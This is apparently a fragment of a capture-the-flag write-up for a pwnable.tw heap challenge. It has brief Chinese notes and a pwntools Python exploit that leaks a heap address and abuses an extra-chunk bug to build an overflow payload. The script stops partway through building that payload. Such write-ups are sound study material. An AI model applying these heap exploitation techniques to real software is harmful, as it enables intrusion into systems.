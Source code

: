 ![Untitled](pwnable2.png)

- 漏洞：可以看到add函数可以多add一个chunk，这就是利用所在

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')
context.log_level = 'debug'

def add(length,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b"Size of page :",str(length))
    io.sendafter(b"Content :",content)

def show(index):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'page :',str(index))

def edit(index,content):
    io.sendlineafter(b'choice :',b'3')
    io.sendlineafter(b"Index of page :",str(index))
    io.sendlineafter(b"Content:",content)

def print_author():
    io.sendlineafter(b'choice :',b'4')
    io.recvuntil(b'BB')
    heap_addr = u64(io.recvuntil('\x0a',drop=True).ljust(8,b'\x00'))-0x10
    info(f'{heap_addr = :x}')
    io.sendlineafter(b'no:0) ',b'0')
    return heap_addr

# io = process('./pwn')
io = remote('chall.pwnable.tw',10304)
libc = ELF('./libc_64.so.6')
io.sendlineafter(b'Author :',b'a'*0x3e+b'BB')

# 可以多add一个chunk，这个chunk正是第一个chunk的size的array
# 将第一个size变成0，这样就可以add一个地址
add(0x0,'')
for _ in range(8):
    add(0x10,'aaaaa')

payload = b'a'*0x18+p64(0x21)
payload += b'b'*0x18+p64(0x21)
```